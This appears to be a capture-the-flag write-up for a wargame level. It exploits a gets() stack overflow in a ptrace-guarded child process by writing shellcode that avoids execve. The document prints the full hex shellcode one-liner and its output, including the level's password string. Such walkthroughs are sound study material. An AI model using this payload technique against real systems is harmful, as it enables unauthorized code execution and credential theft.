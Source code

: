 # Buffer Overflow under execve protection

see source.c

## Analysis

This was a rough one.
First thing after disassembling we instantly notice: the program is using 'gets' on a buffer allocated on the stack, so we can do a easy buffer overflow + modify eip to change wherever we want.
Problem: the buffer will only be modified in the child process and the parent is checking for execve syscall (ptrace /w PTRACE_PEEKUSER). We tried to bypass this protection by doing multiple things like killing the parent (but the program is using prctl on the child so the child terminate instantly after the parent death), or jump on another fork hoping for better result (Didn't manage to get something). The first payload with execve on gdb/strace were working easily but that was because we we're tracing the program so the executable couldn't did it at the same moment.

## Payload

Finally, after hours of trying, we manage to write our payload in nasm that isn't calling execve at all, pseudo-code:
```
fd =open("/home/users/level05/.pass", O_RDONLY);
ret = read(fd, buffer, 41);
write(1, buffer, ret);
exit();
```

()[http://faculty.nps.edu/cseagle/assembly/sys_call.html]
The code of the payload is available in resources/payload.s and was compiling like this:
```
nasm -felf32 test.s && ld -m elf_i386 test.o -o a.out
```
Then we just xxd and get what we needed, and do a little payload with a jump at the end (at the address of eip, that jump on the payload):

```
level04@OverRide:~$ (python -c "print('\x31\xc9\xf7\xe1\x6a\x05\x58\x51\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\xcd\x80\x50\x5b\x6a\x29\x5a\x8d\x0c\x24\x42\xcd\x80\x50\x5a\x6a\x01\x5b\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80' + 'A' * 86 + '\x60\xd6\xff\xff')") | /home/users/level04/level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```
